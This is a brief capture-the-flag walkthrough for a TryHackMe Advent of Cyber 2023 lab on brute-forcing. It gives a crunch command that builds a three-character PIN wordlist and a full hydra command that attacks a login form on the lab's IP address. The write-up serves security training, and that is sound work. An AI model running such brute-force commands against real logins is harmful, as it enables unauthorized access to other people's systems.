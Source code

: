 # Advent of Cyber 2023


------------------------------------------------------------

#### Day 3: Brute-forcing - Hydra is Coming to Town

- Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag?
	- `THM`

First you need to a list for possible 3 digits combination.
```
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```

Then you will navigate to the login page of the site. 
Go to the view source code. 
```
hydra -l '' -P 3digits.txt -f -v 10.10.179.47 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```
